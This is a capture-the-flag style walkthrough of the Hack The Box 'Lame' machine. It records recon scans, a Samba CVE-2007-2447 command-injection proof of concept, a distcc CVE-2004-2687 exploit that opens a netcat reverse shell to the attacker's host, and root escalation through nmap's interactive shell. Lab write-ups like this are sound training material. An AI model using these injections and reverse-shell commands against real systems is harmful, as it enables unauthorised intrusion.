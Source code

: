 # Lame Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -p- -sV -oA fulllame 10.10.10.3``

![image](https://user-images.githubusercontent.com/123066149/227914441-6062cc6b-cf8e-42a9-9c72-e1bc5f1d13c7.png)

``smbmap -H 10.10.10.3``

![image](https://user-images.githubusercontent.com/123066149/227914624-f72106f8-18fc-4cbf-b30a-4fa719dd2118.png)

``smbclient //10.10.10.3/tmp``

### Target is vulnerable to CVE-2007-2447 

### The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) ### SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.


### POC :

``logon "/=`nohup ping -c 2 10.10.16.3`"``

![image](https://user-images.githubusercontent.com/123066149/227915121-e81e5d96-d2fa-4b0c-a677-2396bf1ad7c0.png)

![image](https://user-images.githubusercontent.com/123066149/227915538-909ce755-c397-4d11-ab41-4c3d81b64a4e.png)

### I used thie exploit :

https://github.com/amriunix/CVE-2007-2447

![image](https://user-images.githubusercontent.com/123066149/227916810-6209f211-c8b8-43c3-b48f-93dc98acff44.png)


# ${{\color{purple}Initial Foothold}}\ $

``nmap --script vuln 10.10.10.3 -p 3632``

![image](https://user-images.githubusercontent.com/123066149/227918971-c481c332-b91a-4118-bf21-8036c2cca88f.png)

# ${{\color{purple}Exploitation}}\ $

``nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687.nse --script-args="distcc-exec.cmd='id'"``

![image](https://user-images.githubusercontent.com/123066149/227919097-ed13e420-f29d-4a03-b4c4-e0c8fd95297c.png)

![image](https://user-images.githubusercontent.com/123066149/227919317-d69b3b14-b0e3-4753-a894-f4efd49c2c88.png)

### i used this exploit :

https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

``python2.7 distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c 'nc -c sh 10.10.16.3 9001'``

![image](https://user-images.githubusercontent.com/123066149/227919838-a1debd22-3d6e-4913-bd2e-5ea2346b415f.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/227919996-4c385cfb-e1dc-4963-b96e-cd01a8ea5194.png)

``nmap --interactive``
``!sh``

![image](https://user-images.githubusercontent.com/123066149/227920158-d2c8b115-e35a-4ade-a3c4-b447ebdf47bf.png)


# ${{\color{purple}Points of Improvement}}\ $

* Find version of ubuntu : ``lsb_release -a``
